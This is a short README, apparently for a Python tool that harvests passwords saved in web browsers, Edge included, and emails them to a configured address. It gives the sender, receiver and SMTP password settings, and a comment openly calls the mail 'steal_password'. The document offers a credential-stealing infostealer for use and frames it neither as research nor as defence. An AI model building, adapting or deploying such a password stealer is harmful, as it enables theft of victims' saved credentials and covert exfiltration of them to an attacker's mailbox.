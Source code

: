 # GetsavedPassword
This is A python code to get the passwords saved in any Browser including Edge.
This code collects the password saved in browser and sends back to Any mail Id as you have to give the Id and password in the code.. if you are not a gmail user 
you have to change the smtp port as by the service provider
and dont forget to change https://www.google.com/settings/security/lesssecureapps if you area a gmail user

Change In This Line::::
addr_from = 'sendermailaddress@gmail.com'  # your email to send steal_password
addr_to = 'Reciversmailaddress@gmail.com '  # receive email
password = 'password'  # Your gmail password

please change below line if u are Not a Gmail User:::

server = smtplib.SMTP('smtp.gmail.com', 587)
